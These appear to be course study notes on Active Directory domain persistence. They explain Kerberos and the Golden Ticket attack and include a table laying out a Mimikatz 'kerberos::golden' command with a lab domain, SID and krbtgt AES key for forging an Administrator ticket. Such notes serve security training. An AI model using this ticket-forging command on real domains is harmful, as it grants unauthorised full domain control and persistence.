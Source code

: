 # **Domain Persistence**


- There is much to active directory than "just" the Domain Admin.
- Once we have DA privileges new avenues of persistence, escalation to EA and attacks across trust open up!



## **Kerberos**

- Kerberos is the basis of authentication in a Windows Active Directory environment.
- Clients (programs on behalf of a user) need to obtain tickets from Key Distribution Center (KDC) which is a service running on the domain controller.
- These tickets represent the client's credentials.Therefore, Kerberos is understandably a very interesting target of abuse!



![](https://i.imgur.com/lpHU58k.png)



## **Golden Ticket**


- A golden ticket is signed and encrypted by the hash of krbtgt account which makes it a valid TGT ticket.
- The krbtgt user hash could be used to impersonate any user with any privileges from even a non-domain machine.
- As a good practice, it is recommended to change the password of the krbtgt account twice as password history is maintained for the account.




![](https://i.imgur.com/f4Ti5Jm.png)




|  Options    |      |
|:-----|:-----|
|  kerberos::golden    |   Name of the module   |
|    /User:Administrator  |   Username for which the TGT is generated   |
|   /domain:dollarcorp.moneycorp.local   |  Domain FQDN    |
|  /sid:S-1-5-21-719815819-3726368948-3917688648|      |
|   /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848   |      |
|    /id:500 /groups:512  |      |
| /ptt   |      |
|   OR         |
|    /ticket  |      |
|    /startoffset:0  |      |
|    /endin:600  |      |
|   /renewmax:10080   |      |



